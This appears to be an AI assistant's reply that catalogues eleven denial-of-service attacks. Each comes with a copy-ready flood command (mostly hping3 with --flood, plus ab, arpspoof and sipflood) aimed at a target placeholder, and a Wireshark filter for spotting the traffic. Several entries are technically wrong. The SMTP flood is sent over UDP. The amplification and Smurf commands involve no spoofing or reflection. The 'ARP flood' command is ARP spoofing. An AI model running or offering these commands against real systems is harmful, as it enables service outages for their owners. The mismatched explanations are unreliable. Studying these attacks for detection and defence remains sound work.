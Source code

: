 ### 1. SYN Flood
**Description:**
A SYN flood attack exploits the TCP handshake process. The attacker sends a succession of SYN requests to a target's system, but never completes the handshake by sending the final ACK. This consumes server resources, making it unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```
- `hping3`: A command-line tool for network testing.
- `-S`: Send a SYN packet.
- `-p 80`: Specify the target port (HTTP in this case).
- `--flood`: Send packets as fast as possible.
- `-V`: Verbose mode.

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```
This filter captures only the SYN packets, which are the initial packets in the TCP handshake.

### 2. UDP Flood
**Description:**
A UDP flood attack sends a large number of UDP packets to random ports on a remote host. Since UDP is connectionless, the target system will try to process each packet, consuming resources.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-2`: Use UDP mode.
- `-p 53`: Specify the target port (DNS in this case).

**Wireshark Filter:**
```plaintext
udp
```
This filter captures all UDP packets.

### 3. ICMP Flood (Ping Flood)
**Description:**
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target. The target system will respond with ICMP Echo Reply packets, consuming resources.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.

### 4. HTTP Flood
**Description:**
An HTTP flood attack sends a large number of HTTP requests to a web server. This can overwhelm the server, making it unresponsive to legitimate requests.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```
- `ab`: ApacheBench, a tool for benchmarking web servers.
- `-n 10000`: Number of requests to perform.
- `-c 100`: Number of multiple requests to make at a time.

**Wireshark Filter:**
```plaintext
http
```
This filter captures all HTTP packets.

### 5. DNS Flood
**Description:**
A DNS flood attack sends a large number of DNS requests to a DNS server. This can overwhelm the server, making it unresponsive to legitimate DNS queries.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 6. SMTP Flood
**Description:**
An SMTP flood attack sends a large number of SMTP requests to an SMTP server. This can overwhelm the server, making it unresponsive to legitimate email traffic.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```
- `-p 25`: Specify the target port (SMTP).

**Wireshark Filter:**
```plaintext
smtp
```
This filter captures all SMTP packets.

### 7. ARP Flood
**Description:**
An ARP flood attack sends a large number of ARP requests to a network. This can overwhelm the network, making it unresponsive to legitimate ARP requests.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```
- `arpspoof`: A tool for ARP spoofing.
- `-i <interface>`: Specify the network interface.
- `-t <target_ip>`: Specify the target IP.
- `<gateway_ip>`: Specify the gateway IP.

**Wireshark Filter:**
```plaintext
arp
```
This filter captures all ARP packets.

### 8. DNS Amplification Attack
**Description:**
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 9. NTP Flood
**Description:**
An NTP flood attack sends a large number of NTP requests to an NTP server. This can overwhelm the server, making it unresponsive to legitimate NTP queries.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```
- `-p 123`: Specify the target port (NTP).

**Wireshark Filter:**
```plaintext
ntp
```
This filter captures all NTP packets.

### 10. SIP Flood
**Description:**
A SIP flood attack sends a large number of SIP requests to a SIP server. This can overwhelm the server, making it unresponsive to legitimate SIP traffic.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```
- `sipflood`: A tool for SIP flooding.
- `-t <target_ip>`: Specify the target IP.
- `-p 5060`: Specify the target port (SIP).
- `-c 1000`: Number of concurrent connections.

**Wireshark Filter:**
```plaintext
sip
```
This filter captures all SIP packets.

### 11. Smurf Attack
**Description:**
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.

Would you like me to explain or break down any of the commands or filters further?
